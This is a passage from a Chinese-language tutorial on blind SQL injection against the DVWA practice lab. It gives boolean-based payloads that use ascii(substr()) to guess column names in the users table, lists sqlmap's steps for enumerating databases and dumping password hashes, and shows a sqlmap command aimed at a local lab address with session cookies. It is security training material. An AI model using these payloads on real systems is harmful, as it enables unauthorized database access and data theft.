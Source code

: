 ```
1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),1,1))>117 #
```

第二个字段的第二个字符

```
1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),2,1))>115 #
```

...
（5）猜解数据

... ...



### 利用sqlmap工具

sqlmap是一款基于python编写的渗透测试工具，在sql检测和利用方面功能强大，支持多种数据库。

**利用SQLMap自动化工具的检测流程大致如下：**
 1.判断是否存在注入点、注入类型
 2.获取DBMS中所有的数据库名称
 3.获取Web应用当前连接的数据库
 4.列出数据库中的所有用户
 5.获取Web应用当前所操作的用户
 6.列出可连接数据库的所有账户-对应的密码哈希
 7.列出指定数据库中的所有数据表
 8.列出指定数据表中的所有字段（列）
 9.导出指定数据表中的列字段进行保存
 10.根据导出的数据，验证数据有效性

#### low

**提交的数据是通过GET请求方式，直接在浏览器URL中传递参数**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#"
```

![1](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124648.png)



发现跳转到登录界面，需要cookies来维持会话

**查看cookie**



![3](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124650.png)

![2](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124651.png)



**在sqlmap中输入：``sqlmap –u ‘复制的URL’ --cookie=’复制的cookie’`` ，查看数据库类型**
